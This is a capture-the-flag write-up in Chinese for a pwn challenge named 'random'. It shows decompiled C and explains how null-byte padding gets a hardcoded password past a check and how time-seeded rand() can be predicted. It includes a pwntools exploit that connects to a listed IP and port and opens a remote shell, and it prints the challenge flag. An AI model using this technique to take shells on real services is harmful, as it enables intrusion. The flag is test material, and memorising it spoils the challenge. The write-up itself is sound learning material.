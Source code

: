 # random

这题我是靠手速做出来的。

```c
undefined8 Main(void)
{
  int iVar1;
  uint uVar2;
  uint uVar3;
  uint uVar4;
  long in_FS_OFFSET;
  int local_70;
  int local_6c;
  undefined local_68 [32];
  time_t local_48;
  char acStack64 [32];
  long local_20;
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  local_48 = time((time_t *)0x0);
  memset(local_68,0,0x20);
  memset(acStack64,0,0x20);
  printf("username: ");
  read(0,local_68,0x20);
  printf("password: ");
  read(0,acStack64,0x20);
  iVar1 = strcmp(acStack64,"ls_4nyth1n9_7ruIy_R4nd0m?");
  if (iVar1 == 0) {
    printf("Hello, %s\n",local_68);
    puts("Let\'s guest number!");
    srand((uint)local_48);
    uVar2 = rand();
    uVar3 = rand();
    uVar4 = rand();
    srand(uVar4 ^ uVar2 ^ uVar3);
    rand();
    rand();
    rand();
    local_6c = rand();
    puts("I\'ve got a number in mind.");
    puts("If you guess it right, I\'ll give what you want.");
    puts("But remember, you have only one chance.");
    puts("Please tell me the number you guess now.");
    __isoc99_scanf(&DAT_00400cd9,&local_70);
    if (local_70 == local_6c) {
      puts("You did it!");
      puts("Here\'s your shell");
      system("/bin/sh");
    }
    else {
      puts("Emmm, seems you\'re wrong.");
      puts("Goodbye!");
    }
  }
  else {
    puts("Permission denied.");
  }
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

又到了喜闻乐见rand函数时间。首先需要知道的知识点是，c语言里的rand函数是伪随机。srand用于播种生成随机数的种子，如果播种的种子相同那么出来的随机数也是相同的。记住这点我们就可以正式开始分析了。

先看第一个if语句，iVar1 = strcmp(acStack64,"ls_4nyth1n9_7ruIy_R4nd0m?");要求acStack64（我们输入的密码）和ls_4nyth1n9_7ruIy_R4nd0m?相同。有意思的事情来了，nc上目标后直接输入ls_4nyth1n9_7ruIy_R4nd0m?是无法通过这个if语句的。我还怀疑是不是大小端的关系，按4字节，8字节等对字符串作了变形，还是不行。暴躁的我直接不看了，扔下一句“什么玩意”就去做别的题了。

直到今天我实在不会别的题了，又仔细看了看程序。同时题目增加了提示。

- Border?

Border也是一道题，不过当时我直接做出来了就没写。那道题关键点是利用puts函数以\x00作为截断输出字符串的特点。同时那道题告诉了我们一个事实：c语言中，世界的尽头是\x00。这点有什么用呢？仔细看程序中接收输入的代码。

```c
read(0,acStack64,0x20);
```

接收0x20这么长的内容作为我们输入的密码。等一下，你确定ls_4nyth1n9_7ruIy_R4nd0m?有0x20这么长？明显是没有的。如果使用pwntools的sendline函数，就会在payload的末尾补上一个\n。这就是怎么输入都不对的原因了。正是因为ls_4nyth1n9_7ruIy_R4nd0m?没有0x20这么长，\n会被接收到输入的密码中，因此无论怎样都无法通过if语句。正确的做法是拿\x00填补不够长的内容，然后再用sendline（不知道直接send行吗，没试过）。

成功通过第一个if语句。接下来才是重头戏——猜随机数。之前提到只要种子一样生成的随机数也是一样的，因此我们可以先辨别出程序中使用了什么作为种子，然后自己写个c文件同步运行相同种子，最后将输出作为我们的答案。

srand((uint)local_48);说明local_48是种子。local_48 = time((time_t *)0x0);这句代码说明local_48以当前时间作为种子。别忘了ghidra和ida里都是伪代码，0x0也可以表示NULL，在写自己的脚本时需要稍微变动一下，我是参照[这里](https://www.bilibili.com/read/cv9244042/)的。

新建s.c文件，输入如下代码。

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
int main(void)
{
    srand((unsigned)time(NULL));
    int uVar2 = rand();
    int uVar3 = rand();
    int uVar4 = rand();
    srand(uVar4 ^ uVar2 ^ uVar3);
    rand();
    rand();
    rand();
    int local_6c = rand();
    printf("%d",local_6c);
}
```

有些头文件没用上，是之前的。我懒得删了，无伤大雅。然后gcc编译s.c文件为可执行文件s.o。

- gcc s.c -o s.o

建议用linux环境，我本机由于不是linux环境导致编译后随机数结果竟然不一样。最后就是exp了。

```python
from pwn import *
p=remote("43.136.137.17",3911)
password=b'ls_4nyth1n9_7ruIy_R4nd0m?'.ljust(0x20,b'\x00')
p.sendlineafter("username:",'a')
p.sendlineafter("password:",password)
proc=process("./s.o")
number=proc.recv()
p.sendlineafter("Please tell me the number you guess now.",number)
p.interactive()
```

这个脚本在我的linux shell运行不了remote语句，在本机运行不了./s.o，因为编译成了linux elf文件。我思考片刻，决定一展手速：先在linux shell上敲好./s.o的命令，本机运行删除process那行的脚本替换成input语句，运行的那一刻迅速回到shell运行s.o。试了两次成功了。


- ### Flag
  > moectf{9od_doe5_n0t_pl4y_dic3}
